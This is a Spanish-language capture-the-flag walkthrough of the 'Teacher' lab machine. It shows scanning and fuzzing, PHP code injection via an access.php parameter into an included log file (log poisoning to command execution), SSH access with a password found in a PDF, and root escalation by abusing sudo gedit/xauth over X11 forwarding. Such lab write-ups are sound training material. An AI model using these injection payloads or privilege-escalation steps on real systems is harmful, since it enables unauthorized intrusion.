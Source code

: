 ```php 
##########################################################################################################
#
# CTF a la Máquina Teacher
#
# DATE: 1/Octubre/2022
#
# Gracias a @WWFYMN por las pistas
#
#########################################################################################################
```
# Footprinting
```bash 
IP_atacante -> $ifconfig -> 192.168.0.5
IP_objetivo -> $netdiscover -r 192.168.0.0/24 -> 192.168.0.69
```
# Escaneo y Enumeración

* Veo que puertos tiene abiertos,

```php 
nmap -sVC -T4 -n -p- 192.168.0.69
```
* Obtengo los siguientes puertos abiertos, 22 SSH y 80 HTTP

```php 
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 1e:21:69:d3:57:da:3a:04:0b:6f:f4:50:fb:97:13:10 (RSA)
|   256 36:ee:7f:57:1d:a5:b5:ce:1f:41:ba:b0:43:32:2e:ff (ECDSA)
|_  256 f2:bd:80:dd:e5:05:02:49:c3:3b:9f:83:29:cb:54:96 (ED25519)
80/tcp open  http    Apache httpd 2.4.54 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.54 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
``` 

* Cargo la web y muestra el siguiente mensaje

```php
Hi student, make this server secure please.

Our first server got hacked by cool and avijneyam in the first hour, 
that server was just a test but this server is important becouse this will be used for teaching, 
if we get hacked you are getting an F
``` 
* El código fuente de la página tiene el siguiente comentario

```php 
<!-- Yes mrteacher I will do it -->
``` 
> Puede ser **mrteacher** un nombre de usuario ?

* Búsqueda de ficheros y directorios

```php 
feroxbuster -s 200 -u http://192.168.0.69 -d 2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,html,php,jpg,png
```

* Resultado:

```php 
200        5l       57w      315c http://192.168.0.69/index.html
200   124725l     5579w        0c http://192.168.0.69/log.php
200        1l        2w       12c http://192.168.0.69/access.php
200       14l       28w      676c http://192.168.0.69/manual/index.html
200      755l     2925w   130469c http://192.168.0.69/rabbit.jpg
200        0l        0w        0c http://192.168.0.69/clearlogs.php
``` 

* El stego, **stegseeker**, del *rabbit.jpg* me dice que es un rabbit hole

```php 
cat rabbit.jpg.out 
RabbitHole lol
```
* Fuzzeo el access para intentar sacar el parámetro

```php 
wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/url-params_from-top-55-most-popular-apps.txt -r 5 --hc 404 http://10.0.2.11/access.php?FUZZ=FUZZ
```
> Obtengo un posible parámetro *id* 

* Intento *cosas* con el script **access.php**, como por ejemplo

```php
http://192.168.0.69/access.php?id=1
```
Y observo, con el inspector de firefox, que lo que ponga ahí me lo mete en una etiqueta de image html, que no carga nada porque no existe un fichero de imagen que se llame *1*. Pero si pongo:

```php 
http://192.168.0.69/access.php?id=rabbit.jpg
```
Carga la imagen del conejo de antes

```php 
<img src='rabbit.jpg'>
```

Pero eso no me lleva a ningún sitio

* Pruebo metiendo un script de php 

```php 
http://192.168.0.69/access.php?id=<?php echo exec('id'); ?>
```

Pero nada 👎 en access.php, 

![67-1.png](./67-1.png)

* sin embargo si cargo en ese momento **log.php** 

![67-2.png](./67-2.png)

> Me ha resultado útil en ocasiones, resetear el log, con el fichero **clearlogs.php**
> 
> Thanks to @WWFYMN for this


* Si pruebo un *ls -l /home/* obtengo

```php 
your logs: drwxr-xr-x 5 mrteacher mrteacher 4096 Sep 5 17:55 mrteacher
```
> Así que ya tengo un nombre de usuario confirmado

# Acceso

* Si ejecuto un ls,
```php 
http://192.168.0.69/access.php?id=%3C?php%20echo%20shell_exec(%27ls%20-l%27);%20?%3E
```

obtengo,

```php 
your logs:

total 5324
-rw-r--r-- 1 root      root          191 Aug 25 16:53 access.php
-rw-r--r-- 1 root      root           48 Aug 26 19:39 clearlogs.php
-rw-r--r-- 1 mrteacher mrteacher 5301604 Aug 25 17:38 e14e1598b4271d8449e7fcda302b7975.pdf
-rw-r--r-- 1 root      root          315 Aug 26 16:51 index.html
-rwxrwxrwx 1 root      root           47 Sep 29 23:08 log.php
-rw-r--r-- 1 root      root       130469 Aug 26 16:39 rabbit.jpg
```
Y leyendo el pdf obtengo una contraseña


* Accedo por ssh

```php 
ssh mrteacher@192.168.0.69
pass: Thank....
```

* Capturo la bandera de usuario

```console
9c.......
```

# Acceso a Root

* Ejecuto un **sudo -l** y obtengo

```php 
User mrteacher may run the following commands on Teacher:
    (ALL : ALL) NOPASSWD: /bin/gedit, /bin/xauth
```
* La idea será ejecutar el editor *gedit* como root haciendo *X11 Forwarding* mediante una conexión *SSH*

1. Comprobar si está habilitado el servicio de X11 Forwarding

```php 
grep -i forward /etc/ssh/sshd_config

X11Forwarding yes
```
2. Establecer una conexión SSH habilitando el reenvio a X111

```php
ssh -X mrteacher@192.168.0.69
```
> Comprobamos que funciona el reenvío ejecutando **gedit** como el usuario *mrteacher*, debe funcionar

![67-4](./67-4.png)

Sin embargo si intentamos ejecutar *gedit* como otro usuario, root en nuestro caso, no va a funcionar porque el fichero **Xauthority** de *root* no sabe nada sobre la **magic cookie** que se ha pasado en la primera conexión *SSH*. Así que vamos a generarla para ese **display** y añadirla al fichero

3. Generamos la magic cookie

```php 
mrteacher@Teacher:~$ echo xauth add $(xauth list ${DISPLAY#localhost})

xauth add Teacher/unix:10 MIT-MAGIC-COOKIE-1 859f3db444b1a77d9c0602bd4d804c25
```

4. La añadimos al *Xauthority* de *root* 

```php 
sudo xauth add Teacher/unix:10 MIT-MAGIC-COOKIE-1 859f3db444b1a77d9c0602bd4d804c25
```
Comprobamos que se ha grabado:

```php 
mrteacher@Teacher:~$ sudo xauth list
Teacher/unix:10  MIT-MAGIC-COOKIE-1  859f3db444b1a77d9c0602bd4d804c25
```

5. Ejecutamos gedit como root, voy al directorio de root y obtengo bandera


